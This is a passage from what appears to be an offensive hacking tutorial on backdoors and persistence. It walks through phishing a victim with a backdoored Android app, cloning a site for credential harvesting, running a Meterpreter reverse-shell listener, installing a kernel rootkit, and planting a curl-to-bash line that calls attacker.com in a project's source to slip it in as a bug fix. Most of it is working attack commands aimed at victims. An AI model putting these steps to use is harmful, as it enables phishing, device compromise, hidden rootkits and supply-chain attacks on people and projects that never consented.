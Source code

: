 4. Set up social engineering to deploy the application:

```bash
# Create a convincing phishing email with sendemail
sendemail -xu your_email@gmail.com -xp password -s smtp.gmail.com:587 -f your_email@gmail.com -t victim@target.com -u "Security Update Required" -m "Please install this security update on your company phone immediately." -a backdoored_app.apk

# Or create a fake download website with Social Engineering Toolkit
setoolkit
1  # Social Engineering Attacks
2  # Website Attack Vectors
3  # Credential Harvester
2  # Site Cloner
```

5. Set up the listener to receive connections:

```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit -j
```

When the victim installs and runs the application, you'll receive a meterpreter session that persists across application restarts.

## Advanced Persistence Techniques

Beyond the tools covered above, consider these additional persistence techniques:

### 1. Kernel-Level Rootkits

For the most sophisticated persistence, kernel-level rootkits provide nearly undetectable access:

```bash
# Compile and install a basic LKM rootkit (in a lab environment only)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
make
insmod reptile_mod.ko

# Connect to the hidden backdoor
nc -v 127.0.0.1 5678
```

### 2. Supply Chain Persistence

Modify source packages to include backdoors:

```bash
# Backdoor a source package
git clone https://github.com/target/project.git
cd project
# Add backdoor code to a rarely-accessed source file
echo 'system("curl http://attacker.com/beacon | bash");' >> src/utils/logger.c
# Submit as a "bug fix" or compile and distribute
```
